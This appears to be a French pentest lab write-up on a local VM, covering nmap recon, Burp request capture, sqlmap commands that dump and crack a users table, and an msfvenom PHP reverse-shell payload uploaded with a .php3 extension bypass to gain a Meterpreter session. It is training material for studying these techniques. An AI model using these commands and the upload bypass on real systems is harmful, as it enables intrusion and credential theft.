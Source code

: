 # Pentester : SQL Injection

L'objectif de cette VM est de réaliser des injections SQL et d'utiliser des exploits PHP pour accéder aux droits administrateurs sur la machine cible.

## Sommaire

1. [Mise en place](#mise-en-place)
2. [Site Internet](#Site-internet)
3. [Injection SQL](#Injection-SQL)
4. [Shell.php](#Shell.php)

## Mise en place

Comme à l'accoutumé, faisons un peu de reconnaissance avec `netdiscovery` et `nmap`.

Machine hôte : **192.168.1.51**

Machine cible : **192.168.1.46**

Ports disponibles :

![namp](./images/nmap.png)

## Site internet

![siteinternet]

Pour visualiser les requêtes lancées, j'utilise la suite Burp.

Tout d'abord, on essaye de s'attaquer à la page `admin/login.php`.

Login : *admin*, Password : *admin*, sur un malentendu que ça fonctionne.

![testmdp](./images/testMdp.png)

![burpPost](./images/burpPost.png)

Voici la requête captée par Burp.

![resPost](./images/resAdmAdm.png)

Et sa réponse lorsqu'on la renvoie.

On tente de lancer une injection SQL grâce à `SLQMap`, mais ce dernier nous apprend qu'aucun de ces paramètres ne sont vulnérables.

Tout n'est pas perdu, il y a aussi une autre requête qui peut nous intéresser.

![burpGet](./images/burpGet.png)

On récupère cette requête et on la stocke dans le fichier `req2.txt` pour pouvoir l'utiliser avec `SQLMap`.

![req2](./images/req2.png)

## Injection SQL

`SQLMap` est un outil assez versatile et peut nous permettre d'obtenir de nombreuses informations. Essayons tout d'abord d'obtenir les users de la base de données.

Le `-r` indique la requête et `-p` indique le nom du paramètre.

`sqlmap -r req2.txt -p id --current-user`

![getUser](./images/getUSer.png)

![usernameres](./images/userName.png)

Nous avons à présent un nom d'utilisateur à essayer sur le port SSH.

Maintenant, essayons de trouver un mot de passe afin d'éviter d'utiliser un outil tel que `hydra` pour tenter de le brute force.

On se balade dans la base de données.

![dbName](./images/dbName.png)

![tableSchema](./images/tableSchema.png)

![tablePhoto](./images/photoblog.png)

On a trouvé une table, `users` qui contient sûrement les informations de chaque utilisateur avec leur mot de passe.

`sqlmap -r req2.txt -p id --technique U -D photoblog -T users --dump --dbms MySQL` 

![getpwd](./images/getPassword.png)

Avec cette commande, SQLMap propose de brute-force le mot de passe en se servant d'un fichier pour effectuer une attaque par dictionnaire. On accepte et au bout de quelques secondes, on l'obtient en clair *P4ssw0rd*.

Maintenant, on peut se connecter au site via la page `admin/login.php`, en utilisant les identifiants de *admin*.

![connect](./images/connectToSite.png)

![adminpage](./images/adminPage.png)

On a accès à la page d'administration du photoblog. On peut maintenant ajouter du contenu sur ce dernier.

![newpic](./images/newPicture.png)

Voilà une bonne chose de faite.

## Shell.php

Vu que l'on peut upload des fichiers sur la machine cible, il est possible d'ajouter un fichier php malveillant permettant d'accéder à un shell depuis le site grâce à `Metasploit`.

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.51 LPORT=4444 -f raw -o shell.php`

![shellphp](./images/shell.php.png)

On obtient alors `shell.php` qu'il faut à présent envoyer sur le site. Juste avant, on va modifier l'extension du fichier de `php` à `php3` afin de passer la sécurité présente sur le site. Il faut aussi lancer un listener sur notre machine hôte, qui écoutera si quelqu'un à accéder à la page `shell.php3`.

![msfList](./images/listenerMSF.png)

Plus qu'à upload le fichier et refresh la page d'accueil.

![upload](./images/uploadIMG.png)

![home](./images/homeoui.png)

Puis à regarder, ce qu'a capté le listener.

![list](./images/meterpreter.png) 

Vérifions que nous sommes bien sur la machine cible.

![arr](./images/arrivee.png)

Mission accomplie.
